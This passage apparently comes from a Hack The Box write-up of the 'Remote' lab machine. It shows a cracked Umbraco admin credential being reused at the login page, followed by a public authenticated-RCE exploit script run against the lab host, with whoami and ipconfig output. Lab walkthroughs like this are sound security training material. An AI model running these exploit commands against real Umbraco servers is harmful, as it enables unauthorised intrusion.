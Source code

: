 I cracked the hash. Valid credential for Umbraco is `administrator` : `baconandcheese`
Let's go back to http(80) Umbraco login page, and test this credential.

![](attachments/remote_9.png)

I need to use `admin@htb.local` as username here.
This credential is working.

# Shell as `iis apppool\defaultapppool`

I think I can use Umbraco exploit I found previously.
Here's the link of exploit:
https://github.com/noraj/Umbraco-RCE

```bash
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

options:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments




┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c whoami  
iis apppool\defaultapppool




┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::233
   IPv6 Address. . . . . . . . . . . : dead:beef::d136:9bf1:2389:97aa
   Link-local IPv6 Address . . . . . : fe80::d136:9bf1:2389:97aa%12
```